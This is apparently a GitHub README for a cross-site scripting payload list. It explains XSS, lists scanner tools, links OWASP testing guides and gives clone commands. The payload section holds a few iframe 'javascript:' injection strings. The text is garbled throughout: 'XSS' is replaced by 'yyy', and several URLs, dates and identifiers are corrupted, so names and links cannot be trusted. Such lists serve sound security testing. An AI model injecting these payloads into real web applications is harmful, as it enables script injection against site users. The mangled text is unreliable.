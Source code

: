
### 🚀 Cross Site Scripting ( yyy ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e2354dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/yyy-payload-list/23">

##### Overview : 

Cross-Site Scripting (yyy) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. yyy attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use yyy to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of yyy flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :

```
<!-- Project Name  : Cross Site Scripting ( yyy ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->




"><h23><IFRAME SRC="javascript:alert('yyyzvbbgbdg');"></IFRAME>">2323</h23>
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
















###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-0023)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-0023)

###### DOM Based yyy

* 👉 https://www.owasp.org/index.php/DOM_Based_yyy

###### Cross-Site Scripting (yyy) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/yyy

#### Recommended books :

* [yyy Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/yyy_Attacks.html?id=dPhqDe0WHZ8C)

* [yyy Cheat Sheet](https://leanpub.com/yyy)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/yyy-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/yyy-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/20238/05/yyy-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
--end--

